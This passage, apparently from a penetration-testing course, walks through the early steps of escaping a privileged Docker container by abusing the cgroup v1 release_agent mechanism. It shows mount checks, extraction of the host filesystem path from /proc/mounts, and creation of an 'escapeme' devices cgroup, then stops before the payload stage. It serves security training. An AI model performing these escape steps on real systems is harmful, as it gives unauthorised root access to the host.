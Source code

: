 ```
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,discard,errors=remount-ro)
```

> Listing 49 - Reviewing Container Mounts

Once again, the provided information confirms our suspicions that the current container is running in the _privileged_ context. In the output, we find that the container mounts the **/sys** file system as _read-write_.

As with most container escape exploits, we'll need to know the location of the container root file system on the host system. Fortunately, in the output of the mount command, we find the _upperdir_ variable of the root mount. This is the location of the file system on the host.

Next, we'll find a long list of cgroup mounts. A container that mounts each individual cgroup controller separately typically indicates that we're dealing with a system that uses cgroup v1 instead of v2. A cgroup v2 system would list the type as _cgroup2_ as shown below.

```
cgroup on /sys/fs/cgroup type cgroup2 (ro,nosuid,nodev,noexec,relatime,nsdelegate,memory_recursiveprot)
```

> Listing 50 - Hypothetical cgroup v2 System

In Listing 49, we also find that all the cgroup controllers are writable (as indicated by the "rw"). However, they can't all be used reliably with the release notification exploit. For example, _freezer_, _blkio_, _cpuset_, and _systemd_ don't work with the standard exploit.

However, _hugetlb_, _cpu_, _cpuacct net_cls_, _net_prio_, _devices_, _misc_, _rdma_, _memory_, _perf_event_, and _pids_ can all be used with the standard exploit. In this section, we'll use the device cgroup controller to demonstrate the exploit.

Now that we have gathered the information we need to exploit this container, let's move on to building the exploit.

We'll need to point the contents of **release_agent** to the full path of the script on the host's file system, not the container's. We'll again use **sed** and a regular expression to pull the value of **upperdir** from **/proc/mounts**.

```
victim_release_agent:~# host_path=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/mounts)

victim_release_agent:~# echo $host_path
/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff
```

> Listing 51 - Obtaining and Setting the Host Path

At this point, the _host_path_ variable will hold the full host path of the container's file system.

Next, we need to create a new cgroup. As mentioned earlier, we'll choose to target the _devices_ cgroup. To create a new devices cgroup, we need to create a new directory in **/sys/fs/cgroup/devices/**. We'll name this new cgroup **escapeme**.

```
victim_release_agent:~# ls -alh /sys/fs/cgroup/devices/
total 0
drwxr-xr-x    2 root     root           0 Oct 24 19:30 .
dr-xr-xr-x   15 root     root         380 Oct 24 19:30 ..
-rw-r--r--    1 root     root           0 Oct 24 19:30 cgroup.clone_children
-rw-r--r--    1 root     root           0 Oct 24 19:30 cgroup.procs
--w-------    1 root     root           0 Oct 24 19:30 devices.allow
--w-------    1 root     root           0 Oct 24 19:30 devices.deny
-r--r--r--    1 root     root           0 Oct 24 19:30 devices.list
-rw-r--r--    1 root     root           0 Oct 24 19:30 notify_on_release
-rw-r--r--    1 root     root           0 Oct 24 19:30 tasks

victim_release_agent:~# mkdir /sys/fs/cgroup/devices/escapeme
```